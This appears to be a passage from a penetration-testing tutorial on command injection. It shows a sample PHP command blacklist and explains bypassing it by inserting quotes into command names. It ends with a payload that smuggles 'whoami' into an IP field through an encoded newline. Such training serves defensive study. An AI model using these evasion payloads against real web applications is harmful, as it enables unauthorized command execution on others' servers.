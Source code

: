 Result: Even though we used characters that are not blocked by the web application, the request gets blocked again once we added our command. This is likely due to a command blacklist filter.

### Example PHP Blacklist Filter

```php
$blacklist = ['whoami', 'cat', ...SNIP...];
foreach ($blacklist as $word) {
    if (strpos($_POST['ip'], $word) !== false) {
        echo "Invalid input";
    }
}
```

The above code checks each word of the user input to see if it matches any blacklisted words. Since the filter looks for an exact match of the provided command, we can utilize obfuscation techniques to bypass it.

---

## Obfuscation Techniques

### Linux & Windows

One common obfuscation technique is inserting certain characters within a command that are ignored by command shells like Bash or PowerShell but still allow the command to execute as intended. These characters include:

- Single quotes `'`
- Double quotes `"`

#### Example with Single Quotes

```bash
21y4d@htb[/htb]$ w'h'o'am'i

21y4d
```

#### Example with Double Quotes

```bash
21y4d@htb[/htb]$ w"h"o"am"i

21y4d
```

**Notes:**
- Quotes must be of the same type.
- The number of quotes must be even.

#### Payload Example

```bash
127.0.0.1%0aw'h'o'am'i
```
